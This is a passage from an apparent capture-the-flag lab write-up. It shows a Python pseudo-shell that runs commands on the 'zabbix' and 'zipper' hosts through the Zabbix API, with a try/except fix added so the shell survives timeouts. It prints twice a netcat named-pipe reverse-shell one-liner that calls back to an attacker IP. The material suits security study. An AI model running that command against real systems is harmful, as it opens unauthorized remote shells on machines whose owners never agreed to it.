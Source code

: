 
Now I can run this shell, and change which host I’m interacting with:

    
    
    root@kali# python zipper_shell.py
    [*] Current host is zabbix
    
    [zabbix_cmd]>>:  hostname
    91cae047f48a
    
    [zabbix_cmd]>>:  host zipper
    [*] Current host is zipper
    
    [zipper_cmd]>>:  hostname
    zipper
    [zipper_cmd]>>:  host zabbix
    [*] Current host is zabbix
    
    [zabbix_cmd]>>:  hostname
    91cae047f48a
    
    [zabbix_cmd]>>:  host 0xdf # invalid host option leaves host the same
    [*] Current host is zabbix
    

I did make one other change to the shell. I noticed when I gave it a reverse
shell, it would eventually timeout, and crash the shell:

    
    
    [zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
    Traceback (most recent call last):
      File "zipper_shell.py", line 93, in <module>
        print cmd_exe["result"]["value"]
    KeyError: 'result'
    

I can fix this by adding a `try`:

    
    
     93         try:
     94             print cmd_exe["result"]["value"]
     95         except KeyError:
     96             print("[-] Unexpected data: ")
     97             print(cmd_exe)
    

Now I can continue after a command like a shell:

    
    
    [zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
    [-] Unexpected data:
    {u'jsonrpc': u'2.0', u'id': 0, u'error': {u'message': u'Application error.', u'code': -32500, u'data': u'Timeout while executing a shell script.'}}                                                                        
    [zipper_cmd]>>:  id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    

I could go beyond this as well. For example, I could create a command `shell`
much like I did with `host` that automatically runs the reverse shell to get a
callback. I could have it take an ip and port. I’ll leave that as an exercise
for the reader.

